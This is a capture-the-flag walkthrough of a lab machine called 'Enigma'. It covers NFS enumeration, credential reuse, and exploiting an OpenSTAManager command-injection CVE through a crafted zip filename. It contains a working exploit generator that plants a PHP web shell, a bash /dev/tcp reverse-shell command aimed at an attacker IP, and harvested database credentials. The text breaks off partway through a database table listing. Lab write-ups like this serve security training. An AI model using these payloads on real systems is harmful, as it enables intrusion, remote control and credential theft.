\----------------------------------------------------------------------------------------Enigma------------------------------------------------------------------------------------------------

Step1:- Reconnaissance

 nmap -A -sS -P -T4  --min-rate 5000 10.129.62.109

Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-07-18 13:47 UTC

Nmap scan report for 10.129.62.109

Host is up (0.26s latency).

Not shown: 992 closed tcp ports (reset)

PORT     STATE SERVICE VERSION

22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)

| ssh-hostkey:

|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)

|\_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)

80/tcp   open  http    nginx 1.24.0 (Ubuntu)

|\_http-title: Did not follow redirect to http://enigma.htb/

110/tcp  open  pop3    Dovecot pop3d

|\_pop3-capabilities: RESP-CODES CAPA UIDL STLS SASL AUTH-RESP-CODE PIPELINING TOP

|\_ssl-date: TLS randomness does not represent time

111/tcp  open  rpcbind 2-4 (RPC #100000)

| rpcinfo:

|   program version    port/proto  service

|   100000  2,3,4        111/tcp   rpcbind

|   100000  2,3,4        111/udp   rpcbind

|   100003  3,4         2049/tcp   nfs

|   100005  1,2,3      34275/udp   mountd

|   100005  1,2,3      45891/tcp   mountd

|   100021  1,3,4      41181/tcp   nlockmgr

|   100021  1,3,4      55752/udp   nlockmgr

|   100024  1          46948/udp   status

|   100024  1          50795/tcp   status

|\_  100227  3           2049/tcp   nfs\_acl

143/tcp  open  imap    Dovecot imapd (Ubuntu)

|\_imap-capabilities: IDLE LOGINDISABLEDA0001 LOGIN-REFERRALS OK capabilities have Pre-login ID SASL-IR IMAP4rev1 post-login STARTTLS listed more ENABLE LITERAL+

|\_ssl-date: TLS randomness does not represent time

993/tcp  open  imaps?

|\_ssl-date: TLS randomness does not represent time

995/tcp  open  pop3s?

|\_ssl-date: TLS randomness does not represent time

| ssl-cert: Subject: commonName=enigma

| Subject Alternative Name: DNS:enigma

| Not valid before: 2026-02-18T20:33:33

|\_Not valid after:  2036-02-16T20:33:33

2049/tcp open  nfs\_acl 3 (RPC #100227)

No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

TCP/IP fingerprint:

OS:SCAN(V=7.94SVN%E=4%D=7/18%OT=22%CT=1%CU=34832%PV=Y%DS=2%DC=T%G=Y%TM=6A5B

OS:84A6%P=x86\_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)

OS:SEQ(SP=104%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=104%GCD=1%ISR=108%TI

OS:=Z%CI=Z%II=I%TS=B)SEQ(SP=104%GCD=1%ISR=109%TI=Z%CI=Z%TS=A)SEQ(SP=105%GCD

OS:=1%ISR=109%TI=Z%CI=Z%TS=A)OPS(O1=M552ST11NW7%O2=M552ST11NW7%O3=M552NNT11

OS:NW7%O4=M552ST11NW7%O5=M552ST11NW7%O6=M552ST11)WIN(W1=FE88%W2=FE88%W3=FE8

OS:8%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M552NNSNW7%CC=Y%Q=)

OS:T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=

OS:0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T

OS:6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+

OS:%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK

OS:=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel

TRACEROUTE (using port 587/tcp)

HOP RTT       ADDRESS

1   244.73 ms 10.10.14.1

2   250.60 ms 10.129.62.109

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

Nmap done: 1 IP address (1 host up) scanned in 193.07 seconds

\[#] An Easy Linux machine!! but there are also some interesting ports are open!

\[#] Lets look for the web! to see if we find anything







\[#] Now Lets  explore its RPC network file shares!

showmount -e enigma.htb

Export list for enigma.htb:

/srv/nfs/onboarding \*

\[#] Cool, we there is an open share out there, lets mount it, and see what it has!

sudo mkdir -p /mnt/onboarding #create a mount folder

 sudo mount -t nfs -o nfsvers=3,ro,soft,intr,timeo=50 enigma.htb:/srv/nfs/onboarding /mnt/onboarding

Created symlink '/run/systemd/system/remote-fs.target.wants/rpc-statd.service' → '/usr/lib/systemd/system/rpc-statd.service'.

 

 

\# ls -la /mnt/on\*

total 12

drwxr-xr-x 2 root root 4096 Feb 19 19:54 .

drwxr-xr-x 5 root root 4096 Jun 30 14:47 ..

\-rw-r--r-- 1 root root 1751 Feb 19 19:53 New\_Employee\_Access.pdf

\[#] We successfully extracted a .pdf file, now we need to extract the content, the pdf file wasn't opening so I used a text extractor to get the text

pdftotext -layout /mnt/onboarding/New\_Employee\_Access.pdf -

                                                         Enigma Corp

                                   IT Department - New Employee System Access

Employee:                            Kevin Mitchell

Department:                          Operations

Provisioned by:                      IT Department

Date:                                2024-03-01

Webmail Access

URL:                                 http://mail001.enigma.htb

Username:                            kevin

Password:                            Enigma2024!

Please change your password upon first login.

For support contact: it@enigma.htb

This document contains confidential internal information intended solely for the recipient.

Unauthorized access, disclosure, or distribution is strictly prohibited.

Generated automatically by Enigma Corp Identity Management System.

\[#] We got a goldmine, with a username and password and also a mail subdomain. quickly add it to the hosts!



\[#] This is mail desktop, and we can see an email, and it also discloses a user sarah

\[#] Then i have looked for the version for roundcube mail service



\[#] While there were some open CVEs for this particular version, but none was intended !

 

\[#] After looking at the mails and the network share, we can clearly conclude that kevin is a new employee, and his creds especially the password   Enigma2024! Seems an Admin assigned temp password obviously!, but it could be possible that the same password can be reused for different accounts,

\[#] As we have found a user sarah, we can try using this password for sarah!



\[#] Okay so they do share a common password!

\[#] While we found another creds goldmine

URL: http://support\_001.enigma.htb

Username: admin

Password: Ne3s4rtars78s

 

\[#] A new Subdomain and creds!, add the subdomain in hosts real quick.





\[#] So we are in! and its an openSTAManger web dashboard



\[#] The version is  2.9.8 (5ff39df9b) and it seems to prone to open CVEs

\[!] CVE-2025-69212:OpenSTAManager has an OS Command Injection in P7M File Processing

\[!] Root Cause : The application handles the processing and verification of P7M (digitally signed XML invoice) files. When an archive (.zip) containing an invoice is uploaded, the backend utility dynamically constructs an operating system command using the raw filename of the extracted .p7m file without prior string sanitization or command escaping.

\[!] The Flaw :  By crafting a zip file where a file's name contains a semicolon ; and standalone bash statements, the application breaks out of its internal string scope and executes the injected shell instructions directly.

\[#] This is the vulnerable code snippet!

public static function decodeP7M($file)

{

    $directory = pathinfo($file, PATHINFO\_DIRNAME);

    $content = file\_get\_contents($file);

    $output\_file = $directory.'/'.basename($file, '.p7m');

    try {

        if (function\_exists('exec')) {

            // VULNERABLE - No input sanitization!

            exec('openssl smime -verify -noverify -in "'.$file.'" -inform DER -out "'.$output\_file.'"', $output, $cmd);

(source : https://github.com/advisories/GHSA-25fp-8w8p-mx36)

\[#] The decodeP7M directly contains the  P7M (signed XML) filename, without any sanitization

\[#] Attack Flow :-

	(+) Attacker creates ZIP with malicious filename

	(+) Upload ZIP via importFE\_ZIP plugin

	(+) Application extracts ZIP and iterates files

	(+) For .p7m files, decodeP7M() is called

	(+) Malicious filename is injected into exec() command

	(+) Arbitrary command executes as web server user

\-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

Step-2 : Initial Foothold

\[#] We need to create 3 files, a .zip file, a .p7m file and also a shell.php to execute the commands via URL

\[#] Lets create a python script for it!

cat << 'EOF' > generate\_zip.py

import zipfile

cmd = "cd files \&\& echo '<?php system($\\\_GET\\\[\\\\"c\\\\"]); ?>' > SHELL.php"

malicious\_filename = f'invoice.p7m";{cmd};echo ".p7m'

with zipfile.ZipFile('exploit.zip', 'w') as zf:

&#x20;   zf.writestr(malicious\_filename, b"DUMMY\_P7M\_CONTENT")

EOF

\[#] Run the script and generate the zip file, while the zip file contains invoice.p7m file!

\[#] whenever the decode function will be called it will execute the shell.php file which will eventually let us to execute shell commands via URL

\[#] Now that we have signified all three files we need to upload the zip file under /sales/sales invoices module



&#x09;

\[#] Now after upload you may get an error.......



\[#] But i guess the zip file is uploaded....

\[#] Lets check if it is uploaded or not!

\# curl -G "http://support\_001.enigma.htb/files/SHELL.php" --data-urlencode "c=id"

uid=33(www-data) gid=33(www-data) groups=33(www-data)

\[#] Okay, So as i said it is uploaded, and we can execute shell commands as well!

\[#] Lets get the shell now!

curl -G "http://support\_001.enigma.htb/files/SHELL.php" --data-urlencode "c=bash -c 'bash -i >\& /dev/tcp/<YOUR\_IP>/4444 0>\&1'"

&#x20;

\[#] On the Shell

nc -lvnp 4444

listening on \[any] 4444 ...

connect to \[10.10.15.\*\*\*\*] from (UNKNOWN) \[10.129.62.109] 59028

bash: cannot set terminal process group (1513): Inappropriate ioctl for device

bash: no job control in this shell

www-data@enigma:\~/html/openstamanager/files$

\[#] Lets Enumerate the home dir

www-data@enigma:/home$ ls

ls

haris

it

kevin

sarah

www-data@enigma:/home$ cd kevin

cd kevin

bash: cd: kevin: Permission denied

www-data@enigma:/home$ cd sarah

cd sarah

bash: cd: sarah: Permission denied

www-data@enigma:/home$ cd it

cd it

bash: cd: it: Permission denied

www-data@enigma:/home$ cd it

cd it

bash: cd: it: Permission denied

\[#] As usual for a  container, access, but still no access!

\[#] So while exploring the files, i have found a config file at /var/www/html/openstamanager/config.inc.php

// Impostazioni di base per l'accesso al database

$db\_host = 'localhost';

**$db\_username = 'brollin';**

**$db\_password = 'Fri3nds@9099';**

$db\_name = 'openstamanager';

// $port = '|port|';

$db\_options = \[

&#x20;   // 'sort\_buffer\_size' => '2M',

];

\[#] it gave us MySQL creds for user brollin! lets look for the database and tables!

\[#] Before running anything, we need to  Stabilise the raw reverse socket into a fully functional interactive TTY terminal

&#x20;# python3 -c 'import pty; pty.spawn("/bin/bash")'

\[#] Now lets list what tables it has!

www-data@enigma:\~/html/openstamanager/files$  mysql -u brollin -p'Fri3nds@9099' openstamanager -e "SHOW TABLES;"

<n -p'Fri3nds@9099' openstamanager -e "SHOW TABLES;"

mysql: \[Warning] Using a password on the command line interface can be insecure.

+---------------------------------+

| Tables\_in\_openstamanager        |

+---------------------------------+

| an\_anagrafiche                  |

| an\_anagrafiche\_agenti           |

| an\_assicurazione\_crediti        |

| an\_mansioni                     |

| an\_nazioni                      |

| an\_nazioni\_lang                 |

| an\_pagamenti\_anagrafiche        |

| an\_provenienze                  |

| an\_provenienze\_lang             |

| an\_referenti                    |

| an\_regioni                      |

| an\_regioni\_lang                 |

| an\_relazioni                    |

| an\_relazioni\_lang               |

| an\_sdi                          |

| an\_sedi                         |

| an\_sedi\_tecnici                 |

| an\_settori                      |

| an\_settori\_lang                 |

| an\_tipianagrafiche              |

| an\_tipianagrafiche\_anagrafiche  |

| an\_tipianagrafiche\_lang         |

| an\_zone                         |

| co\_banche                       |

| co\_categorie\_contratti          |

| co\_categorie\_contratti\_lang     |

| co\_contratti                    |

| co\_contratti\_tipiintervento     |

| co\_dichiarazioni\_intento        |

| co\_documenti                    |

| co\_fatturazione\_contratti       |

| co\_iva                          |

| co\_iva\_lang                     |

| co\_mandati\_sepa                 |

| co\_movimenti                    |

| co\_movimenti\_modelli            |

| co\_pagamenti                    |

| co\_pagamenti\_lang               |

| co\_pianodeiconti1               |

| co\_pianodeiconti2               |

| co\_pianodeiconti3               |

| co\_preventivi                   |

| co\_promemoria                   |

| co\_provvigioni                  |

| co\_riferimenti\_righe            |

| co\_righe\_ammortamenti           |

| co\_righe\_contratti              |

| co\_righe\_documenti              |

| co\_righe\_preventivi             |

| co\_righe\_promemoria             |

| co\_ritenuta\_contributi          |

| co\_ritenutaacconto              |

| co\_rivalse                      |

| co\_scadenziario                 |

| co\_stampecontabili              |

| co\_staticontratti               |

| co\_staticontratti\_lang          |

| co\_statidocumento               |

| co\_statidocumento\_lang          |

| co\_statipreventivi              |

| co\_statipreventivi\_lang         |

| co\_tipi\_scadenze                |

| co\_tipi\_scadenze\_lang           |

| co\_tipidocumento                |

| co\_tipidocumento\_lang           |

| do\_categorie                    |

| do\_categorie\_lang               |

| do\_documenti                    |

| do\_permessi                     |

| dt\_aspettobeni                  |

| dt\_aspettobeni\_lang             |

| dt\_causalet                     |

| dt\_causalet\_lang                |

| dt\_ddt                          |

| dt\_porto                        |

| dt\_porto\_lang                   |

| dt\_righe\_ddt                    |

| dt\_spedizione                   |

| dt\_spedizione\_lang              |

| dt\_statiddt                     |

| dt\_statiddt\_lang                |

| dt\_tipiddt                      |

| dt\_tipiddt\_lang                 |

| em\_accounts                     |

| em\_email\_attachment             |

| em\_email\_print                  |

| em\_email\_receiver               |

| em\_email\_upload                 |

| em\_emails                       |

| em\_files\_categories\_template    |

| em\_list\_receiver                |

| em\_lists                        |

| em\_lists\_lang                   |

| em\_mansioni\_template            |

| em\_newsletter\_receiver          |

| em\_newsletters                  |

| em\_print\_template               |

| em\_templates                    |

| em\_templates\_lang               |

| fe\_causali\_pagamento\_ritenuta   |

| fe\_modalita\_pagamento           |

| fe\_modalita\_pagamento\_lang      |

| fe\_natura                       |

| fe\_natura\_lang                  |

| fe\_regime\_fiscale               |

| fe\_regime\_fiscale\_lang          |

| fe\_stati\_documento              |

| fe\_stati\_documento\_lang         |

| fe\_tipi\_documento               |

| fe\_tipi\_documento\_lang          |

| fe\_tipi\_ritenuta                |

| fe\_tipo\_cassa                   |

| in\_fasceorarie                  |

| in\_fasceorarie\_lang             |

| in\_fasceorarie\_tipiintervento   |

| in\_interventi                   |

| in\_interventi\_tags              |

| in\_interventi\_tecnici           |

| in\_interventi\_tecnici\_assegnati |

| in\_righe\_interventi             |

| in\_righe\_tipiinterventi         |

| in\_statiintervento              |

| in\_statiintervento\_lang         |

| in\_tags                         |

| in\_tariffe                      |

| in\_tipiintervento               |

| in\_tipiintervento\_lang          |

| mg\_articoli                     |

| mg\_articoli\_barcode             |

| mg\_articoli\_lang                |

| mg\_articolo\_attributo           |

| mg\_attributi                    |

| mg\_attributi\_lang               |

| mg\_attributo\_combinazione       |

| mg\_causali\_movimenti            |

| mg\_causali\_movimenti\_lang       |

| mg\_combinazioni                 |

| mg\_combinazioni\_lang            |

| mg\_fornitore\_articolo           |

| mg\_listini                      |

| mg\_listini\_articoli             |

| mg\_movimenti                    |

| mg\_piani\_sconto                 |

| mg\_prezzi\_articoli              |

| mg\_prodotti                     |

| mg\_scorte\_sedi                  |

| mg\_unitamisura                  |

| mg\_valori\_attributi             |

| my\_componenti                   |

| my\_componenti\_interventi        |

| my\_impianti                     |

| my\_impianti\_contratti           |

| my\_impianti\_interventi          |

| my\_impianto\_componenti          |

| or\_ordini                       |

| or\_righe\_ordini                 |

| or\_statiordine                  |

| or\_statiordine\_lang             |

| or\_tipiordine                   |

| or\_tipiordine\_lang              |

| updates                         |

| zz\_api\_log                      |

| zz\_api\_resources                |

| zz\_cache                        |

| zz\_cache\_lang                   |

| zz\_categorie                    |

| zz\_categorie\_lang               |

| zz\_check\_user                   |

| zz\_checklist\_items              |

| zz\_checklists                   |

| zz\_checks                       |

| zz\_currencies                   |

| zz\_currencies\_lang              |

| zz\_default\_description          |

| zz\_default\_description\_module   |

